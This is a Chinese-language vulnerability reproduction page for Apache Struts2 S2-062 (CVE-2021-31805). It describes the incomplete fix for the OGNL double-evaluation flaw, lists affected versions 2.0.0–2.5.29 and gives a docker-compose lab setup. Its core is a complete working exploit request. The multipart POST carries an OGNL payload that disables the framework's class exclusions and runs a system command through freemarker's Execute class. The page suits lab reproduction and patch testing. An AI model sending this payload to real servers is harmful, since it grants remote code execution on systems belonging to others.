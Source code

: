 # Apache Struts2 S2-062 远程代码执行漏洞 CVE-2021-31805

## 漏洞描述

该漏洞由于对 CVE-2020-17530 的修复不完整造成的，CVE-2020-17530 漏洞是由于 Struts2 会对某些标签属性 (比如 id) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 `%{x}` 且 其中 x 的值用户可控时，用户再传入一个 `%{payload}` 即可造成 OGNL 表达式执行。在 CVE-2021-31805 漏洞中，仍然存在部分标签属性会造成攻击者恶意构造的 OGNL 表达式执行，导致远程代码执行。

## 漏洞影响

```
Struts 2.0.0 - Struts 2.5.29
```

## 环境搭建

docker-compose.yml

```
version: '2'
services:
 struts2:
   image: vulhub/struts2:2.5.25
   ports:
    - "8080:8080"
```

环境启动后，访问 `http://your-ip:8080/index.action` 查看到首页。

![](images/Apache%20Struts2%20S2-062%20远程代码执行漏洞%20CVE-2021-31805/image-20241217161107704.png)

## 漏洞复现

发送请求包

```php
POST / HTTP/1.1
Host: your-ip:8080
Content-Length: 829
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1OyBby784sBXbcK9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: */*
Referer: http://your-ip:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: en

------WebKitFormBoundary1OyBby784sBXbcK9
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundary1OyBby784sBXbcK9--
```

![](images/Apache%20Struts2%20S2-062%20远程代码执行漏洞%20CVE-2021-31805/image-20241217165407787.png)
